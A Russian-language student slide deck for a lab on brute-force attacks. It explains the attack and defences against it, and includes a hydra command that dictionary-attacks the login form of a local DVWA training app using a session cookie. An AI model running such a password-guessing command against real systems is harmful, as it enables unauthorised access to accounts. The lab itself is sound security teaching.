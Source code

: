 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Мари Карапетян\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 19 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

![Страница веб-формы](image/01.png){ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

![Результат подбора](image/03.png){ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.